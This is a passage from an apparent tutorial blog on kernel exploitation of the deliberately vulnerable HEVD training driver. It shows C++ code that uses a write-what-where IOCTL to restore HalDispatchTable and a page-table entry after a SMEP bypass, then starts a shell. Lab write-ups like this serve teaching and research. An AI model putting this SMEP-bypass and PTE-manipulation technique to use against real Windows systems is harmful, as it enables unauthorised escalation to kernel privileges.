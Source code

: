 Which means we’ve successfully bypassed `SMEP`.

![](imgs/blog/2SmepBypass/20250420175226.png)
but we get a BSOD after that...

That’s why we need to restore the PTE structure and the `HalDispatchTable0x8` address to their original state.

The code to restore the state after the exploit is the following:
```cpp
...
	// Restore the changed address to avoid BSOD
	WhaWhe.What = (void*)&HalDispatchTable0x8;
	WhaWhe.Where = (void*)HalDispatchTable0x8;

	lpBytesReturned = 0;
	DeviceIoControl(hHEVD, 0x22200B, &WhaWhe, sizeof(WRITE_WHAT_WHERE), nullptr, 0, &lpBytesReturned, nullptr);

	printf("\n[+] HalDispatchTable0x8 restored successfully\n");
	WhaWhe.What = nullptr;
	WhaWhe.Where = nullptr;


	*(UINT64*)&Pte_details |= 0x4;

	WhaWhe.What = (void*)&Pte_details;
	WhaWhe.Where = (void*)ShellcodePageBase;
	DeviceIoControl(hHEVD, 0x22200B, &WhaWhe, sizeof(WRITE_WHAT_WHERE), nullptr, 0, &lpBytesReturned, nullptr);
	printf("[Page Restored successfully to UM]\n");

	WhaWhe.What = nullptr;
	WhaWhe.Where = nullptr;

	printf("\nGenerating a Shell...\n");
```